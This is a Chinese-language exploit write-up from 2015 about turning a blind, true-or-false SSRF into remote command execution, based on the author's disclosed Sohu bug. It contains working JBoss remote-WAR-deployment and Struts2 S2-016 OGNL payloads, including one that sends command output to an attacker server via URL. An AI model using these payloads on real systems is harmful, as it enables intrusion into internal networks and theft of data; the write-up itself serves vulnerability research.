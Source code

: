 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
**应用识别**

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

**攻击Payload**

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

`/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war`

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

`/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

**Payload Result**

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用
下面是S2-016的POC:

	/action.action:%25{3*4}
	/action.action?redirect:%25{3*4}

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转, 通过URL跳转来验证S2-016漏洞.
![Struts2-redirect](./Res/Struts2-redirect.png)

当然也可以通过 "?redirect:http://www.baidu.com" 来验证. 那么我们是否可以通过 "?redirect:http://SERVER/%25{3*4}" 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.
![Struts2-redirect-to-remote](./Res/Struts2-redirect-to-remote.png)

下面我们尝试S2-016的命令执行POC,执行结果如下:

`?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

![Struts2-exec](./Res/Struts2-exec.png)

特此说明一下, 这里返回java.lang.ProcessImpl@xxxxxx表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

`?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}`

![Struts2-remote-exec](./Res/Struts2-remote-exec.png)

由服务器端Access日志可以看出, 命令执行成功

![Struts2-access-log](./Res/Struts2-access-log.png)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 

带回显的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}`

![Struts2-ssrf](./Res/Struts2-ssrf.png)

将命令执行结果Redirect到远程:

![Struts2-ssrf2](./Res/Struts2-ssrf2.png)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}`

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![Struts2-ssrf3](./Res/Struts2-ssrf3.png)

远程服务器日志:

![Struts2-ssrf4](./Res/Struts2-ssrf4.png)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

#### 0x05 Other(想到什么写什么)
Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行” http://wooyun.org/bugs/wooyun-2015-0129588 , 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.

--------------------------------------------------------------------------------------------------------------------------------------- By KaiyiZhang   2015.08.04
